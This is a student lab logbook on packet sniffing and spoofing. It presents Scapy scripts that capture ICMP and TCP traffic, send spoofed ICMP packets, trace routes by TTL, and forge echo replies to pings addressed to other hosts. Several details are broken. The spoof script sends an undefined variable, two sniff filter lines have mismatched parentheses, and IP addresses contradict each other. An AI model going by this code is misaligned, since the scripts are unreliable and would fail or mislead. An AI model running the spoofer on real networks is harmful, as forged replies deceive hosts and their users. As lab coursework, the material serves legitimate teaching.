 # LOGBOOK13 - Sniffing and Spoofing

This week's focus was on understanding mechanisms for monitoring and manipulating network traffic.

## Task 1.1 - Sniffing Packets

The initial step involved identifying the network interface on the attacker container using the `ifconfig` command, which revealed the interface name as `br-ced6656419bc`. A Python script named `sniffer.py` was created in the shared folder `volumes` based on the provided guide. This script utilized Scapy to sniff and display ICMP packets on the specified interface.

```py
#!/usr/bin/env python3

from scapy.all import *

def print_pkt(pkt):
  pkt.show()

pkt = sniff(iface='br-ced6656419bc', filter='icmp', prn=print_pkt)
```

Then, we used the command `chmod a+x sniffer.py` to make this program executable.

Then the objective is to ping the HostB from HostA. To do that, we need to get the ip from the Host B machine. That could be done with the command `ifconfig`. We found out that the IP of the Host B machine is `ping 10.9.0.6`. Then, what we must do is to `ping 10.9.0.6` in Host A machine. This is what we found on the attacker machine:

![Task 1.1](images/LOGBOOK13/image.png)

Then, we used `su seed` command to try to run the code withoud root privileges, which leads us to an error:

![Task 1.1](images/LOGBOOK13/image1.png)

The next challange that was proposed to us is to capture any TCP packets that comes from a specific destination port with the number 23. For that, it was just need to change the last line of `sniffer.py`:

```py
pkt = sniff(iface='br-ced6656419bc', filter='tcp and src host 10.9.0.6 and dst port 23', prn=print_pkt))
```

Then after this changes, we ran the code again and reached the following output:

![Task 1.1](images/LOGBOOK13/image2.png)

For the last filter we did this: 

```py
pkt = sniff(iface='br-ced6656419bc', filter='dst net 128.230.0.0/16', prn=print_pkt))
```

And the output was:

![Task 1.1](images/LOGBOOK13/image3.png)

## Task 1.2 - Spoofing ICMP Packets

For this task, another file names `spoofer.py` was created for the testing. It was based on the template that was given in the guide:

```py
#!/usr/bin/env python3

from scapy.all import *

a = IP()
a.dst = '10.0.2.3'
b = ICMP()
p = a/b
send(p)

ls(a)
```

Then, once again we ran  `chmod a+x spoofer.py`. After that, we opened the Wireshark and selected the attacker interface, `enp0s3`. After that, we ran the program `spoofer.py` and see the results:

![Task 1.2](images/LOGBOOK13/image2.1.png)


![Task 1.2](images/LOGBOOK13/image2.2.png)

We can see that there is a packet that have the same source IP that the attacker container. The destinity of the IP addres is the one that we have defined before, `10.2.0.3`.

## Task 1.3 - Traceroute

For this task, it was created a file name `traceroute.py`. Once again, this file was already given in the template. However, the program as previously changes to address more than one values of Time to Live (TTl).

```py
#!/usr/bin/env python3
from scapy.all import *

for ttl in range(1, 16):
  a = IP()
  a.dst = '8.8.8.8'
  b = ICMP()
  a.ttl = ttl
  send(a/b)
```

The capture was started in wireshark and the program was ran, showing the following output:

![Task 1.3](images/LOGBOOK13/image3.1.png)

## Task 1.4 - Sniffing and-then Spoofing

For this task, it was create a file named `sniffing_spoofing.py` to solve us the problem.

```py
#!/usr/bin/env python3

from scapy.all import *

def spoof(packet):

    if ICMP in packet and packet[ICMP].type == 8:
        print("-----Original-----")
        print("Src IP : ", packet[IP].src)
        print("Dest IP :", packet[IP].dst)

        ip = IP(src=packet[IP].dst, dst=packet[IP].src, ihl=packet[IP].ihl)
        icmp = ICMP(type=0, id=packet[ICMP].id, seq=packet[ICMP].seq)
        data = packet[Raw].load
        newpacket = ip/icmp/data

        print("-----Spoofed-----")
        print("Source IP : ", newpacket[IP].src)
        print("Destination IP :", newpacket[IP].dst)

        send(newpkt, verbose=0)

packet = sniff(iface='br-ced6656419bc', filter='icmp and host 1.2.3.4', prn=spoof)

```

The ideia is to run the following script in the attacker machine and use the host A machine to ping what is necessary. The first ping we use is `ping 1.2.3.4`: The result is the following:

![Task 1.3](images/LOGBOOK13/image4.1.png)  

In the host machine the resukt is the following:

![Task 1.3](images/LOGBOOK13/image4.2.png)




